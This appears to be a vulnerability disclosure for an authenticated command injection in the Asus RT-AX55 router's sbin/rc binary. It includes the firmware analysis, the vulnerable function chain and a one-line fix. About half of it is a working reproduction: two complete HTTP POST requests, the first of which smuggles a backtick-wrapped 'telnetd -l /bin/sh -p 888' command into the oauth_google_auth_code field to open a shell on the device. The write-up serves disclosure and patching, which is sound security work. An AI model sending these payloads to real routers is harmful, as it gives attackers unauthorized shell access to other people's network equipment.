






# 0x01  Vulnerability Description #

The Asus `rt-AX55` router has a vulnerability in command injection after authentication.

# 0x02  Firmware Analysis #

Firmware download: ：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
You can extract it directly using binwalk with the option -Me.

# 0x03  Code Analysis #

Analyze the binary file "`sbin/rc`". In the function `FUN_0004d76c`, retrieve the value of "`oauth_google_gen_token_email`" from the HTTP request parameter `action_script`, leading to the execution of the function `FUN_000bc540`.

In function `FUN_000bc540`.

Enter the function `FUN_000b9190`, retrieve the value of "`oauth_google_auth_code`" from NVRAM, and finally concatenate the value of "`oauth_google_auth_code`" to the system function.

# 0x04  Vulnerability Reproduction #

Seting `oauth_google_auth_code`.

requst1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 563
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=197%40qq.com&PM_SMTP_AUTH_USER=77&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&oauth_google_auth_code='`telnetd%20-l%20/bin/sh%20-p%20888`'

Trigger command injection.

requst2：

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 533
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Boauth_google_gen_token_email&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=177%40qq.com&PM_SMTP_AUTH_USER=19&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

# 0x05  Vulnerability Fix #

Filter out single quotes from "`oauth_google_auth_code`".